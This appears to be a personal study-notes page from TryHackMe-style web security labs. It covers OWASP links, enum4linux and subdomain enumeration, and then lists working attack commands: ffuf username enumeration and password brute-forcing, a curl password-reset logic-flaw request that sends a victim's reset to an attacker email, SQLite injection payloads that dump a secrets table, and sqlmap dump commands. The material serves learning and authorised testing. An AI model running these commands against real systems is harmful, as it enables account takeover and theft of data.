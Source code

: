 # R

* Remember for web/general/security

<hr class="sep-both">

## OWASP

* https://owasp.org/www-project-top-ten/
* Juiceshop
* https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
* https://github.com/OWASP/wstg
* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
* https://github.com/OWASP/CheatSheetSeries
* https://www.zaproxy.org/
* https://github.com/OWASP/Amass

<hr class="sep-both">

## enum4linux

![Usage: Enumerating Information](https://img.shields.io/badge/usage-Enumerating%20Information-ffd700)

I don't know if there is still an `enum.exe`, because I can't find it, but you can use the tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) for enumerating information from Windows, and Samba hosts.

```bash
$ ./enum4linux.pl <options> <ip>
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : os data
# -i : printer data
# -v : verbose
```

<hr class="sep-both">

# Notes

* https://tryhackme.com/resources/blog/online-training-for-careers
* https://tryhackme.com/resources/blog/cyber-security-awareness-month
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence
* https://www.virustotal.com/gui/home/upload
* https://www.hybrid-analysis.com/
* https://otx.alienvault.com/ (An open-source threat tracking system)

<hr class="sep-both">

# Learn again

* netdiscover
* https://www.sans.org/cyberaces/
* https://crackstation.net/
* echo xxx name >> /etc/hosts 
* nmap xxx
  * Service Info: Host: Os:
* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388

<hr class="sep-both">

# Web

**Subdomain** enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

* Brute Force
  * https://www.kali.org/tools/dnsrecon/ & https://github.com/darkoperator/dnsrecon
  * dnsrecon -t brt -d xxx.thm
* OSINT (Open-Source Intelligence)
  * https://crt.sh/
  * https://ui.ctsearch.entrust.com/ui/ctsearchui
  * -site:www.domain.com site:*.domain.com
  * Sublist3r https://github.com/aboul3la/Sublist3r
* Virtual Host
  * /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users)
  * Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header.
  * `ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.126.102 -fs 2395`
  * The above command uses the -w switch to specify the wordlist we are going to use. The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.
  * Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the -fs switch. Edit the below command replacing {size} with the most occurring size value
* Errors in web application
  * ex: signin username taken
    * ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/signup -mr "username already exists"
    * -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.
    * ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/login -fc 200
    * we have to specify our own FUZZ keyword. In this instance, we've chosen W1
    * -fc code: filter codes that are not code
* Logic Flaw
  * when someone (hacker or any) take a path different than intended
  * $_REQUEST=$_GET+$_POST. If both have a key, then post is used.
  * GET url with non-injectable parameter (verified)
  * POST URL in which you can override the value of the non-injectable parameter
  * curl 'http://10.10.136.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@hack.ca'
  * Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.
  * https://crackstation.net/
  * https://www.base64encode.org/
  * Cookies (encoded/raw/ff)
  * https://tryhackme.com/room/authenticationbypass
  * https://tryhackme.com/room/subdomainenumeration

<hr class="sep-both">

# SQL

* Input Box String: usual
* Input Box Non-String: when there is no quotes: `'' OR 1=1-- -`
* If you have trouble via a form (client-side verification) intercept the request
* Look into the field name to guess column names
* Update
  * none',nickName='lol
* Version
  * (SELECT banner FROM v$version)
  * sqlite_version()
    * SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
    * ',nickName=(SELECT group_concat(tbl_name, '<br>') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
    * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
    * ',nickName=(SELECT group_concat(id || ":" || author || ":" || secret, '<br>') FROM secrets),email='
* https://www.kirsle.net/wizards/flask-session.cgi
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin"
  --level=5 --risk=3 --dbms=sqlite --technique=b --dump
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump --threads 10
* https://tryhackme.com/room/sqlilab
* See tamper script

<hr class="sep-both">

## Burp

* take a request captured in the Proxy, edit it, and send the same request repeatedly as many times as we wish
* tabs per request